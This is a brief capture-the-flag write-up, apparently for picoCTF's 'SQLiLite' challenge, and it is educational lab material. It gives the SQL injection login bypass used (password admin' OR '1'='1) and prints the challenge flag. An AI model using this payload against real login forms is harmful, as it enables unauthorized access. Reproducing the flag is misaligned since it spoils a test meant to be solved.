 ## <p style="text-align: center;">SQLiLite</p>

<ol>
    <li>
    The title gives us a clue on what to do since it starts with "SQLi" (SQL injection)
</li>
<br/>
    <li>
    The first and most basic test I do in a vulnerable login like this one is

    username: admin
    password: admin' OR '1'='1

Luckily it worked, and I got the flag!
</li>
</ol>
<br/>
<details>
    <summary> Flag </summary>
    
    picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}
</details>